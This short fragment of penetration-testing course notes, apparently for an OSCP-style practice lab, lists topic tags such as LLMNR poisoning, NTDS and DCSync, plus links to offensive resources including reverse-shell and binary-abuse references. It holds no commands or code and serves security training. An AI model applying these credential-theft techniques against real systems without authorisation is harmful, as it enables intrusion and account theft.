- #PracticeLab #LLMNR #Responder #NTDS #DCSync
- #ReportWriting #Methodology #OSCP #Module5
## External Resources

- [HackTricks - Pentesting Index](https://hacktricks.wiki/en/index.html)
- [PayloadsAllTheThings - Methodology and Resources](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
- [GTFOBins](https://gtfobins.github.io/) for Unix binary abuse where applicable
- [RevShells](https://www.revshells.com/) for shell payloads where applicable
- [CyberChef](https://gchq.github.io/CyberChef/) for encoding and decoding
- [ippsec.rocks](https://ippsec.rocks/) for practical walkthrough searches
